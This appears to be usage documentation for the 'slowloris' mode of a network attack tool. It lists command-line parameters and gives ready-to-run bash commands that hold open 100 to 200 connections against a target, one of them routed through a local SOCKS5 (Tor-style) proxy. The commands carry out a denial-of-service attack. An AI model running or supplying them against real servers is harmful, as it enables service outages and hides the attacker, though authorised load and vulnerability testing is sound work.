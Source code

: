 **Parameters:**
- `--target`: Target hostname or IP
- `--port`: Target port (default: 80, 443 for SSL)
- `--ssl`: Use SSL/TLS connection
- `--connections`: Number of connections to maintain
- `--keep-alive`: Keep-alive interval in seconds
- `--interval`: Interval between sending headers
- `--socket-timeout`: Socket timeout in seconds
- `--verify-vuln`: Test if target is vulnerable
- `--user-agent`: Custom User-Agent string
- `--proxy`: HTTP/SOCKS proxy for connections

**Example Usage:**
```bash
# Basic Slowloris - Simple connection exhaustion
python src/cli.py slowloris \
    --target example.com \
    --connections 150

# Advanced Slowloris - Fine-tuned with SSL
python src/cli.py slowloris \
    --target example.com \
    --port 443 \
    --ssl \
    --connections 200 \
    --keep-alive 10 \
    --interval 15 \
    --socket-timeout 30 \
    --verify-vuln
```

**Attack Scenarios:**
1. Basic Web Server Test
   ```bash
   # Test with minimal connections
   python src/cli.py slowloris \
       --target example.com \
       --connections 100 \
       --verify-vuln \
       --interval 30
   ```

2. Secure Server Testing
   ```bash
   # Test SSL with custom configuration
   python src/cli.py slowloris \
       --target example.com \
       --ssl \
       --port 443 \
       --connections 150 \
       --user-agent "Mozilla/5.0" \
       --proxy "socks5://127.0.0.1:9050"
   ```
